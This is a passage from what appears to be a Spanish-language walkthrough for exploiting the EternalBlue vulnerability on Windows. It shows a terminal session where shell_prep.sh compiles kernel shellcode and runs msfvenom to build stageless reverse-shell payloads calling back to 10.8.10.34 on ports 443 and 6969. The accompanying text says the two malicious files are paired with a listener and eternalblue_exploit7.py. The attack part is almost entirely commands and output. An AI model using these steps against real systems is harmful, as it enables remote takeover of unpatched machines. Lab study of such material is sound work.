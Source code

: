 ~~~
./shell_prep.sh
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
Y
LHOST for reverse connection:
10.8.10.34
LPORT you want x64 to listen on:
443
LPORT you want x86 to listen on:
6969
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.8.10.34 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.8.10.34 LPORT=6969
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
~~~

Con esto crearemos 2 archivos maliciosos, uno para la arquitectura x64 y otro x86, primero nos pondremos en escucha por el puerto que indicamos en el primer archivo malicioso(x64) en mi caso es el puerto 443 y ejecutaremos el script de Python llamado ```eternalblue_exploit7.py```
